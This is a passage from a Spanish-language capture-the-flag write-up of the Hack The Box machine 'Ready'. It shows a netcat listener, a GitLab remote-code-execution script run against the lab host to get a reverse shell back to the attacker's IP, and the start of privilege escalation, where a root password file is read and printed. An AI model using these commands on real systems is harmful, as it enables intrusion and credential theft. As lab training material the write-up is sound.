 ```bash
–» nc -lvp 4433
listening on [any] 4433 ...
```

Ahora ejecutamos:

```bash
–» python3 gitlab_rce.py 
usage: gitlab_rce.py <http://gitlab:port> <local-ip>
```

```bash
–» python3 gitlab_rce.py http://10.10.10.220:5080 10.10.14.159
Gitlab Exploit by dotPY [LOL]
registering kDf551GgUn:VutawCPqGC - 200
Getting version of http://10.10.10.220:5080 - 200
The Version seems to be 11.4.7! Choose wisely
delete user kDf551GgUn - 200
[0] - GitlabRCE1147 - RCE for Version <=11.4.7
[1] - GitlabRCE1281LFIUser - LFI for version 10.4-12.8.1 and maybe more
[2] - GitlabRCE1281RCE - RCE for version 12.4.0-12.8.1 - !!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP
type a number and hit enter to choose exploit: 
```

Damos a la opción `0`, ya que es nuestra versión yyyyyyyyy:

![304bash_revSH_gitlab](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304bash_revSH_gitlab.png)

Tenemos una Shell como el usuario `git` en el sistema. Antes de seguir hagámosle un tratamiento a la Shell (TTY), ya que con la que tenemos estamos limitados, no podemos ver los comandos anteriormente ingresados, no podemos hacer `CTRL + C` y demás cosas que podemos hacer en una sesión completa:

* [Youtube - S4vitar explicando como hacer tratamiento de la TTY](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Listosss, ahora a enumerar...

El archivo `user.txt` puede ser visualizado con el usuario `git`, aunque su propietario es `dude` :O

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En la raíz hay un objeto llamativo (cuál es? e.e) pero pues solo es eso, llamativo, ya que esa "pass" no nos sirve con ningún usuario:

```bash
git@gitlab:/home/dude$ ls /
RELEASE  assets  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  root_pass  run  sbin  srv  sys  tmp  usr  var
git@gitlab:/home/dude$ cat /root_pass 
YG65407Bjqvv9A0a8Tm_7w
```
